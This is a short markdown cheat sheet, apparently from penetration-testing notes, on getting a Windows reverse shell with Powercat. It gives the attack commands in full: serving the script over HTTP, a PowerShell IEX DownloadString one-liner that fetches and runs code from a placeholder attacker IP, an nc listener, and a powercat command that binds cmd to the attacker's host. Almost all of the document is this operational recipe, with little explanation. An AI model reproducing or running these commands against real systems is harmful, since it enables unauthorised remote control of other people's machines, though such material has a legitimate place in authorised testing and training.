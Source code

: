 # Reverse Shell: Powercat

1. Download [Powercat](https://github.com/besimorhino/powercat.git)

        git clone https://github.com/besimorhino/powercat.git
        python -m SimpleHTTPServer 80

2. Transfer `powercat.ps1` into the target Windows machine
   
        powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_IP_ADDRESS>/powercat.ps1');
        
3. Start a listener on attacker machine

        nc -lvp 1234

4. Execute the following command on the remote side to get a netcat session

        powercat -c <ATTACKER_IP_ADDRESS> -p 1234 -e cmd"

## References

* https://github.com/besimorhino/powercat.git
* https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/